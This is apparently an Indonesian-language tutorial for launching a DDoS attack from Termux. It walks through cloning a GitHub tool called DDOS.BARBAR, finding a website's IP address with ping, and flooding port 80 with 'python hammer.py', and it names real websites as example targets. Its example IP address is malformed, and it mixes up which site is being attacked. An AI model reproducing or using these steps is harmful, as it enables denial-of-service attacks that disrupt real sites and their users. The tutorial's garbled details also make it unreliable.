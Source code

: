 # SERANGAN DDOS ATTACK
$apt update && apt upgrade

$pkg install git && pkg install python


$git clone https://github.com/mrpaktoto/DDOS.BARBAR

$ cd DDOS.BARBAR

$ python hammer.py




Carilah alamat ip sebuah website dengan menggunakan perintah :

ping (namawebsite.com) 

Contohnya :

ping www.xnxx.com

Setelah kita mendapatkan alamat ip target, disini saya mendapatkan alamat website nekopoi.care, lalu jika kita ingin melakukan penyerangan terhadap situs target, lakukan dengan perintah :

python hammer.py -s (Alamat Ip) -p 80 -t 135

Contohnya disini saya akan menyerang situs www.xnxx.com


python hammer.py -s 283.223.123 -p 80 -t 135

 Dan penyerangan (DDOS)
